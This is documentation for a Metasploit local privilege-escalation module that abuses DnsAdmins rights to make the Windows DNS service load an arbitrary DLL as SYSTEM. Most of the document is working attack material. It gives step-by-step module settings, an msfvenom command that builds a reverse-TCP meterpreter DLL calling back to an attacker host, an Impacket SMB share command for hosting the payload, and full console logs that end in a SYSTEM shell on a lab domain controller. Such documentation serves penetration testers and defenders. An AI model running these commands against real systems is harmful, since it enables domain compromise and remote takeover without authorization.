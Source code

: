 ## Introduction
This module exploits a feature in the DNS service of Windows Server. Users of the DnsAdmins group can set the
`ServerLevelPluginDll` value using dnscmd.exe to create a registry key at `HKLM\SYSTEM\CurrentControlSet\services\DNS\Parameters\`
named `ServerLevelPluginDll` that can be made to point to an arbitrary DLL. After doing so, restarting the service will load the DLL
and cause it to execute, providing us with SYSTEM privileges.

## Vulnerable Application

Windows Server 2003 and above

## Verification Steps

1. Get a Meterpreter shell
2. `use exploit/windows/local/dnsadmin_serverlevelplugindll`
3. `set PAYLOAD <payload>`
4. `set LHOST <lhost>`
5. `set LPORT <lport>`
6. `set SESSION <session_no>`
7. `set DLLNAME <dllname>` if you want to name your DLL something other than `msf.dll`
8. `set DLLPATH <dllpath>` if you want to place your DLL somewhere other than `%TEMP%` or want to use a UNC path
9. `exploit` to get SYSTEM shell

## Options

  **DLLNAME**
  Name of the DLL to use.

  **DLLPATH**
  Location of the DLL to use. If a UNC path is provided, the module assumes that the operator already has the prerequisites:
  1. A working SMB2 share (use Impacket's `smbserver.py` to quickly set up one)
  2. A DLL of the same architecture as the target system

## Scenarios

### Windows Server 2019 Standard x64, writing `msf.dll` to `%TEMP%`
```
msf5 > sessions

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x64/windows  BASILISKCORP\salazar @ DC01  192.168.137.139:4444 -> 192.168.137.133:56703 (192.168.137.133)

msf5 > use exploit/windows/local/dnsadmin_serverlevelplugindll 
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LHOST 192.168.137.139
LHOST => 192.168.137.139
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LPORT 4444
LPORT => 4444
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set SESSION 1 
SESSION => 1
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > exploit

[*] Started reverse TCP handler on 192.168.137.139:4444 
[*] Checking service state...
[*] DNS service is running, proceeding...
[*] Building DLL...
[*] Writing DLL to C:\Users\salazar\AppData\Local\Temp\msf.dll...
[*] Modifying ServerLevelPluginDll to point to C:\Users\salazar\AppData\Local\Temp\msf.dll...
[+] Registry property serverlevelplugindll successfully reset.
[*] Restarting the DNS service...
[*] Sending stage (206403 bytes) to 192.168.137.133
[*] Meterpreter session 2 opened (192.168.137.139:4444 -> 192.168.137.133:59422) at 2020-05-01 03:28:29 +0800

meterpreter > sysinfo
Computer        : DC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : BASILISKCORP
Logged On Users : 11
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

### Windows Server 2019 Standard x64, specifying a UNC path for ServerLevelPluginDll
The fastest way to get a share up and running is to use Impacket's `smbserver`:
`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -ip 192.168.137.139 test ./`
Generate a DLL using `msfvenom`:
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.137.139 LPORT=4444 -f dll -o test.dll`
```
msf5 > sessions

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x64/windows  BASILISKCORP\salazar @ DC01  192.168.137.139:4444 -> 192.168.137.133:62355 (192.168.137.133)

msf5 > use exploit/windows/local/dnsadmin_serverlevelplugindll 
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LHOST 192.168.137.139
LHOST => 192.168.137.139
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LPORT 4444
LPORT => 4444
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set DLLPATH \\\\192.168.137.139\\test
DLLPATH => \\192.168.137.139\test
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set DLLNAME test.dll
DLLNAME => test.dll
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set SESSION 1 
SESSION => 1
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > exploit

[*] Started reverse TCP handler on 192.168.137.139:4444 
[*] Checking service state...
[*] DNS service is running, proceeding...
[*] Using user-provided UNC path.
[*] Modifying ServerLevelPluginDll to point to \\192.168.137.139\test\test.dll...
[+] Registry property serverlevelplugindll successfully reset.
[*] Restarting the DNS service...
[*] Sending stage (206403 bytes) to 192.168.137.133
[*] Meterpreter session 2 opened (192.168.137.139:4444 -> 192.168.137.133:62373) at 2020-05-01 02:35:06 +0800

meterpreter > sysinfo
Computer        : DC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : BASILISKCORP
Logged On Users : 11
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

### Notes
This module is not particularly opsec-safe as it drops a DLL to disk, writes to the registry, and is sure to generate a ton of event logs when the DNS service is stopped and restarted.